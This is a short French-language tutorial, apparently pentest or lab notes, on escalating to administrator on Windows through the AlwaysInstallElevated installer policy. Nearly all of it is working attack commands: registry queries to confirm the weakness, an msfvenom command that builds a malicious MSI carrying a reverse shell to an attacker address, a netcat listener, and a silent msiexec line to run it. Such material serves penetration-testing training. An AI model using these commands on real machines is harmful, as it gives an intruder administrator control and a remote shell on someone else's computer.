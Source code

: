 Les programmes d'installation Windows (`.msi`) sont utilisés pour installer des applications. 
Ils s'exécutent généralement avec le niveau de privilèges de l'utilisateur qui les démarre. 

Cela pourrait potentiellement nous permettre de générer un fichier MSI malveillant qui s'exécuterait avec les privilèges d'administrateur.

Cette méthode nécessite la définition de deux valeurs de registre :

```c
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> Notez que les deux clés sont définies sur 1 (`0x1`).
> Pour pouvoir exploiter cette vulnérabilité, les deux clés de registre doivent être définis. Dans le cas contraire, l'exploitation ne sera pas possible. 

Si ceux-ci sont définis, vous pouvez générer un fichier `.msi` malveillant :

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=9001 -f msi -o malicious.msi
```

```sh
nc -nlvp 9001
```

Une fois que vous avez transféré le fichier malveillant, vous pouvez exécuter le programme d'installation avec la commande ci-dessous et recevoir le shell inverse :

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
